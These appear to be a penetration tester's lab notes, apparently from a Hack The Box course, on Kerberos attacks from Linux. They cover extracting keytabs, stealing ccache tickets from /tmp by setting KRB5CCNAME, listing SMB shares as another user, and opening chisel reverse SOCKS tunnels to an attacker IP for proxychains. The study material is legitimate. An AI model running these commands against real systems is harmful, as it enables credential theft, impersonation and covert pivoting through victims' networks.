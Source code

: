 
Connect to SMB Shares 
```shell
smbclient //dc01/carlos -k -c ls
```

##### KeyTab Extract 
[KeyTabExtract.py](https://github.com/sosdave/KeyTabExtract)
```shell
python3 keytabextract.py *.keytab
```
##### Abusing KeyTab ccache
Need to be root

###### Finding ccache Files 
Holds kerberos credentials 
```shell
env | grep -i krb5
```

```shell
ls -la /tmp
```

located in /tmp
```shell
id julio@inlanefreight.htb
```
Import ccache files into current session
```shell
klist
```
```shell
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```

### Linux Attack Tools with Kerberos 
#### Setup
Need to ensure KRB5CCNAME enviroment variable is to the ccache file we want.
Need to make sure attack host can talk to KDC/DC for name resolution.  
	Need to proxy traffic?
```shell
cat /etc/hosts
```
Need to proxy socks5 through port 1080
```shell
cat /etc/proxychains.conf
```

```shell
gzip -d chisel_1.7.7_linux_amd64.gz

mv chisel_* chisel && chmod +x ./chisel

sudo ./chisel server --reverse 
```
example:
```
chisel server --port 8000 --socks5 --reverse

.\chisel.exe client --max-retry-count 1 10.10.15.23:8000 R:socks
```
